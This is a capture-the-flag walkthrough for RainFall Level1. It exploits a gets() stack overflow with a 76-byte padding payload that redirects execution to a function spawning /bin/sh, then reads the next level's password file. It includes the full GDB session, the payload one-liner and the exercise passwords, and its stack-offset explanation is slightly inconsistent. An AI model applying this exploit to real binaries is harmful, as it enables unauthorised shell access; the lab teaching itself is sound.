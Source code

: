# RainFall CTF – Level1 Full Detailed Walkthrough


## 1. Initial Setup

Log in as level1 and download the binary:

```bash
su level1 53a4a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
scp -P 4242 -r level1@10.13.249.218:/home/user/level1/level1 .
```

Start GDB with PEDA:

```bash
gdb-peda ./level1
```

---

## 2. Enumerate Functions

Inside GDB:

```gdb
info functions
```

Relevant output:

```
0x08048444  run
0x08048480  main
0x08048340  gets@plt
0x08048360  system@plt
0x08048350  fwrite@plt
```

**Observations:**

- `main` uses `gets()` → **vulnerable to buffer overflow**.
- `run` calls `system("/bin/sh")` → target function.
- `fwrite` prints `"Good... Wait what?"`.

> **Important:** Addresses like `0x08048444` are **virtual memory addresses** assigned when the binary is loaded. They are not literal constants in the file.

---

## 3. Disassemble `main` and Analyze Stack

```gdb
disassemble main
```

Output:

```
0x08048480 <+0>: push   %ebp
0x08048481 <+1>: mov    %esp,%ebp
0x08048483 <+3>: and    $0xfffffff0,%esp
0x08048486 <+6>: sub    $0x50,%esp
0x08048489 <+9>: lea    0x10(%esp),%eax
0x0804848d <+13>: mov %eax,(%esp)
0x08048490 <+16>: call 0x8048340 <gets@plt>
0x08048495 <+21>: leave
0x08048496 <+22>: ret
```

### Stack Layout Explanation

When `main()` runs:

```
Higher addresses
+-------------------+
| Return Address    | <- overwritten to jump to run()
+-------------------+
| Saved EBP         |
+-------------------+
| Local Buffer      | <- 64 bytes allocated (0x50 - 0x10)
+-------------------+
Lower addresses
```

- `sub $0x50, %esp` → allocates **80 bytes**.
- `lea 0x10(%esp), %eax` → buffer starts at `esp + 0x10`.
- **Buffer size** = 0x50 - 0x10 = **64 bytes**.
- **Vulnerability:** `gets()` reads **unbounded input**, so writing >64 bytes overflows **saved EBP** and then **return address (EIP)**.

---

## 4. Disassemble `run` and Find System Call

```gdb
disassemble run
```

Output snippet:

```
0x08048444 <+0>: push   %ebp
0x08048445 <+1>: mov    %esp,%ebp
...
0x08048479 <+53>: call 0x8048360 <system@plt>
```

- Start of function = **0x08048444**
- Inside, it prints `"Good... Wait what?"` and executes `system("/bin/sh")`.
- **This is the function we want to jump to.**

> **Note:** We know the function’s address from `info functions` or `p run` in GDB. It is **not stored literally in the binary**, it is the **virtual memory address** after the binary is loaded.

---

## 5. Find Exact Overflow Offset

Generate a cyclic pattern in PEDA:

```gdb
gdb-peda$ pattern create 100
```

Run the program with it:

```gdb
gdb-peda$ run
```

Program crashes (`SIGSEGV`). Inspect registers:

```
EIP: 0x41344141 ('AA4A')
EBP: 0x65414149 ('IAAe')
ESP: 0xffffcdc0 ("AJAAfAA5AAKAAgAA6AAL")
```

Search for pattern in memory:

```gdb
gdb-peda$ pattern search
```

Output:

```
EBP+0 found at offset: 72
EIP+0 found at offset: 76
```

### Memory Analysis

- First 64 bytes → buffer
- Next 4 bytes → saved EBP
- Next 4 bytes → **return address (EIP)**

So **offset to return address** = 76 bytes.

---

## 6. Crafting the Exploit

Payload structure:

```
[A * 76][RET address = run()]
```

- RET address = `0x08048444` → **little-endian** = `\x44\x84\x04\x08`
- Python 2 payload:

```bash
python -c 'print "A"*76 + "\x44\x84\x04\x08"' > /tmp/input
```

**Memory During Overflow:**

```
[0..63]   -> buffer
[64..67]  -> saved EBP (can be junk)
[68..71]  -> padding/alignment
[72..75]  -> EIP overwritten → CPU jumps to run()
```

---

## 7. Execute Exploit Properly

```bash
cat /tmp/input - | ./level1
```

- `-` keeps stdin open → `system("/bin/sh")` can run.
- Output:

```
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```

---

### Why Without `-` It Fails

```bash
cat /tmp/input | ./level1
```

- stdin closes immediately.
- `system("/bin/sh")` cannot read → exits → program segfaults.
- Only `"Good... Wait what?"` is printed.

---

## 8. Level2 Password

```
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

---

## 9. Key Points Summary

- **Vulnerability:** `gets()` → unbounded input → stack overflow
- **Offset:** 76 bytes to reach EIP
- **Target:** `run()` at `0x08048444`
- **Payload:** `"A"*76 + "\x44\x84\x04\x08"`
- **Execution:** `cat /tmp/input - | ./level1`
- **Registers/Memory:** Buffer fills stack → EBP overwritten → EIP overwritten → CPU jumps to `run()`

---
